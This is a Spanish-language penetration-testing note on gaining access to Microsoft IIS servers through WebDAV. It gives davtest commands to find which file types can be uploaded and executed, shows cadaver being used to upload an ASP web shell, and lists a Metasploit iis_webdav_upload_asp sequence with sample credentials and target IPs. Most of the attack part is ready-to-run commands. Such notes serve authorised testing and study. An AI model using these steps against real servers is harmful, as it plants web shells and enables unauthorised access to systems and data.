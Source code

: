 # Microsoft IIS / WebDAV

## File Upload Abusing

En base a ciertas posibles configuraciones en WebDAV. Con credenciales validas, podremos subir archivos y explotarlos, de esta manera obtendremos acceso a la maquina.

En primer lugar necesitamos saber que tipos de archivos son permitidos subir y ejecutar. Sobre todo nos interesa PHP, ASP, ASPX, JSP. Para comprobar los archivos ejecutables, usaremos la herramienta davtest. En este caso si no hay autenticación:

```bash
davtest -url http://192.168.1.1/webdav
```

Si necesitamos credenciales especificas:

```bash
davtest -auth usuario:contraseña -url http://192.168.1.1/webdav
```

Por lo tanto se suben los archivos:

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Y comprueba si se pueden ejecutar:

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Cadaver

Ahora, usaremos la herramienta cadaver para subir y descargar archivos del WebDAV.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Subimos una webshell. Elegimos una escrita en asp:

```bash
/usr/share/webshells/asp/webshell.asp
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Accedemos:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Podemos usar metasploit para subir la web shell:

```perl
msfconsole

use exploit/windows/iis/iis_webdav_upload_asp

set RHOSTS 10.0.17.27

set HttpUsername bob

set HttpPassword password_123321

set PATH /webdav/metasploit%RAND%.asp

exploit
```

